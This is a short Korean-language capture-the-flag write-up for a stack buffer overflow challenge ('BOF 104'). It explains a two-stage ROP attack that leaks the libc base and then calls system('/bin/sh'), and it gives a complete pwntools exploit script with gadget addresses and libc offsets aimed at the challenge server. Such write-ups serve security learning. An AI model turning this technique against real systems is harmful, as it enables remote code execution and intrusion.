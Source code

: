 ## PWN - BOF 104

---

파일로 libc와 ELF 파일이 주어진다.

```python
int bofme()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  read(0, buf, 0x200uLL);
  return puts(buf);
}
```

BOF만 하면 되는 문제 같지만, `system PLT`가 없고 쉘을 실행하는 함수 같은 것도 없다.

따라서 ROP exploit으로 `libc_base`를 알아내서 system 주소를 구하는 작업과 `system(”/bin/sh”)`를 실행하는 작업이 필요하다.

필자는 1번째 ROP chain으로 `put(stdin)`을 실행하여, `libc_base`를 구하고 `bofme()` 시작 주소로 리턴했다. 

다음으로 2번째 ROP chain으로 `system(”/bin/sh”)`를 실행했다.

2번째 ROP 과정에서 `movasp` 에러가 발생함으로 ret 가젯을 사용해서 해결해줘야 한다.

### ○ exploit

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

#context.log_level = 'debug' 

p = remote("bof104.sstf.site", 1337)   
#p = process("./bof104", env = {"LD_PRELOAD":"./libc.so.6"})

pop_rdi = 0x401263
pop_rsi_r15 = 0x401261
bss = 0x404040
read_plt = 0x401070
puts_plt = 0x401060
puts_got = 0x404018
stdin = 0x404050
ret = 0x40101a

# Leak libc_base
payload = b'a'*(0x20+0x8)
payload += p64(pop_rdi) + p64(stdin) + p64(puts_plt) 
payload += p64(0x40117A) # bofme()

p.sendline(payload)
p.recvuntil('\n')

libc_base  = u64(p.recv(6)+b'\x00\x00') - 0x219AA0
system = libc_base + 0x50D60
bin_sh = libc_base + 0x1D8698

print(hex(libc_base))

# solve movaps & ROP exploit
payload = b'a'*(0x20+0x8)
payload += p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
p.sendline(payload)

```